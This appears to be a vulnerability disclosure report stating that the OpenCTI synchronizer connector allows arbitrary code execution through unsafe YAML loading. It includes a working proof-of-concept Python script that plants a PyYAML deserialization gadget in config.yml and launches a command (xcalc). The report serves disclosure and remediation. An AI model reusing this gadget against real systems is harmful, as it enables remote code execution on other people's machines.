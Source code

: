 # Description

`OpenCTI connectors` is used to store the OpenCTI connectors for the platform integration with other tools and applications. `OpenCTI synchronizer connector` allows you to synchronize a third-party OpenCTI platform to your own one, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Cloning
```bash
git clone https://github.com/OpenCTI-Platform/connectors
```

### Run exploit.py
```
import os
#os.sysem('git clone https://github.com/OpenCTI-Platform/connectors')
os.chdir('connectors/synchronizer/src')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('python synchronizer.py')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
